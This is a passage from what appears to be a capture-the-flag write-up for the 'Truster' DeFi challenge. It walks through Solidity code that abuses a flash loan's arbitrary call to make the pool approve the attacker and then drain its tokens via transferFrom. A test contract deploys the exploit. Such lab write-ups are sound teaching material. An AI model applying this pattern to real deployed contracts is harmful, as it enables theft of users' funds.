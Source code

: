    ```solidity
   bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), _token.balanceOf(address(_pool)));
   ```

2. **Execute the flash loan**: The exploit contract calls the `flashLoan` function with the crafted calldata. This causes the pool to call the `approve` function on the token contract, approving the exploit contract to spend the pool's tokens.

   ```solidity
   _pool.flashLoan(0, address(this), address(_token), data);
   ```

3. **Transfer the tokens**: The exploit contract then transfers all approved tokens from the pool to the recovery account.
   ```solidity
   _token.transferFrom(address(_pool), _recovery, _token.balanceOf(address(_pool)));
   ```

### Test Contract

All that is left todo is to deploy the exploit contract in the `TrusterChallenge` test section, since the exploit is triggered in the constructor of the exploit contract, it will be executed as soon as the contract is deployed.

```solidity
contract TrusterChallenge is Test {

    function test_truster() public checkSolvedByPlayer {
        // @audit-info our small addition is here :)
        new TrusterExploit(pool, token, recovery);
    }

}
```
